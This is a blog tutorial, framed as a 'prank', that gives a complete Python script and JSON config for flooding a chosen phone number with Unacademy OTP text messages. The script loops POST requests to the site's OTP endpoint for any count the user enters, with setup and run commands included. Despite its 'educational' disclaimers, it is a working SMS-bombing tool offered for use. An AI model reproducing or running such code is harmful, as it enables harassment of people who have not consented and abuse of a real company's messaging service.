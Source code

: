 ```yaml
---
title: "Unlimited Unacademy OTP's Prank"
date: '2023-09-24'
tags: ['python', 'scripting', 'prank', 'unacademy', 'otp', 'tutorial']
draft: false
images: ['https://cdn-images-1.medium.com/max/800/0*Ti2wMJmJ90jvAx15']
summary: 'A Python script tutorial for sending unlimited Unacademy OTPs to phone numbers, intended for educational purposes and responsible pranking.'
---
```


## Table of Contents

1. **Introduction**
2. **Prerequisite**
3. **Getting Started**
4. **Running the Script**
5. **Important Note**
6. **Conclusion**

## Introduction

In this article, we'll delve into a Python script that adds a touch of humor to your day by sending **unlimited Unacademy OTPs** to your friends' mobile numbers. However, it's crucial to stress that the primary purpose of this script is educational, and any misuse or harm is strongly discouraged.

![Unacademy OTP Prank](https://cdn-images-1.medium.com/max/800/0*Ti2wMJmJ90jvAx15)

## Prerequisite

Before we jump into the script, ensure that you have Python and pip installed on your system. You should also have a basic understanding of Python programming. There's no need for any third-party dependencies for this project; all you require is your setup and the provided script.

## Getting Started

1. Begin by creating a folder named "Script" in your preferred location.
2. Within the "Script" folder, craft three files:

   - main.py
   - data.json
   - requirements.txt

3. In the "requirements.txt" file, insert the following line:

```typescript
requests
```

<BlogNewsletterForm title="Enjoying this Python tutorial?" />

4. In the "data.json" file, paste the following code:

```json
[
  {
    "name": "UNACADEMY",
    "url": "https://unacademy.com/api/v3/user/user_check/?enable-email=true",
    "headers": {},
    "body": {
      "phone": "",
      "country_code": "IN",
      "otp_type": 1,
      "email": "",
      "send_otp": true,
      "is_un_teach_user": false
    }
  }
]
```

**Note**: You can update the "country_code" to match your country's ID.

5. In the "main.py" file, paste the Python script provided:

```python
import requests
import json
import time


def send_requests(index, data, mobile_number):
    for obj in data:
        name = obj["name"]
        url = obj["url"]
        headers = obj["headers"]
        payload = obj["body"]

        # Update payload with the mobile number
        for key in payload.keys():
            if key in keys_to_update:
                payload[key] = mobile_number

        response = requests.post(url, headers=headers, json=payload)

        # Check the response status code
        if response.status_code == 200:
            message = json.loads(response.text)
            print(f"{index+1} => {name}: {message['message']}")
        else:
            print(f"{name}: Request failed with status code {response.status_code}")

        # Add a 1-minute delay between requests
        time.sleep(60)


if __name__ == "__main__":
    # Fetch mobile number from the user
    mobile_number = input("Please Enter Phone Number: ")
    count = int(input("Please Enter Message count: "))

    # Opening JSON file
    with open("data.json") as f:
        data = json.load(f)

    # Keys to update in Payload
    keys_to_update = ["phone"]

    for index in range(count):
        # Send requests
        send_requests(index, data, mobile_number)
```

## Running the Script

Now, follow these commands to execute the script:

```python
# Create a virtual environment
python3 -m venv .venv

# Activate the virtual environment (Linux/Mac)
source .venv/bin/activate

# Activate the virtual environment (Windows)
.venv\Scripts\activate

# Install dependencies
pip3 install -r requirements.txt

# Run the Python script
python3 main.py
```

> After executing the script, you will be prompted to **enter the target phone number and number of OTP's you want to send**. Enter details, Press enter. And within 5 seconds, you will receive Unacademy OTP's.

## Important Note

At the time of writing this article, there are no restrictions number of OTP's but we can send one OTP each minute. You have the freedom to send as many OTPs as you desire to play pranks on your friends. However, it's important to note that the situation may change in the future, so be sure to check for any updates if you're reading this at a later date.

## Conclusion

This Python script serves as an educational tool and a lighthearted way to explore programming. Always exercise responsible and ethical coding practices. Enjoy your Unacademy OTP prank responsibly and respect the privacy and consent of others.

